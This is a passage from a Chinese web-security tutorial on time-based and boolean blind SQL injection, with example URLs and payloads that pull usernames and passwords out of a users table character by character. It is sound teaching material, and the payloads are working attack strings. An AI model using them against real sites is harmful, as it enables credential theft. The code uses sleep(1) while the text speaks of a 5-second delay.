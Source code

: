 实际执行的SQL语句为：
```
SELECT * FROM users WHERE id='1' and if(substr((select group_concat(concat_ws('-',username,password)) from security.users limit 0,1),1,1)='d',1,sleep(1))
```

**分析：**`id='1'`为真，紧接着执行后面的if语句判断security数据库中的users表的username和password字段的值得第一个字符是不是d，并且使用concat_ws函数将username和password字段用`-`分割，使用group_concat函数将username和password字段一起输出。是则立即返回结果，不是则延迟5秒返回结果。

同上面一样可以使用BP爆破
![image.png](../../_img/02-Web安全/01-基础知识/1664342704136-26a9f02d-861f-4855-b2e5-fb5fc2e97f09.png)

**2.5.4、布尔盲注**<br />设有一个URL为：`http://xmtxsec.top/test.php/?id=1`<br />后台SQL语句为：`select aaa,bbb,ccc from tests where id = '$id'  `

当我们输入：
```
http://xmtxsec.top/test.php/?id=1' and substr((select group_concat(username,password) from security.users limit 0,1),1,1)='d'--+
```

实际执行的SQL语句为：
```
select aaa,bbb,ccc from tests where id = '1' and substr((select group_concat(username,password) from security.users limit 0,1),1,1)='d'--+
```

**分析：**`id = '1'`为真，紧接着判断security数据库里的users表的username和password字段，判断username字段的第一个值得第一个字符是不是d，是则页面返回正常，不是则页面返回错误。
![image.png](../../_img/02-Web安全/01-基础知识/1664343437489-818d76fe-bce8-4122-a50f-3e8c5f0bcd5d.png)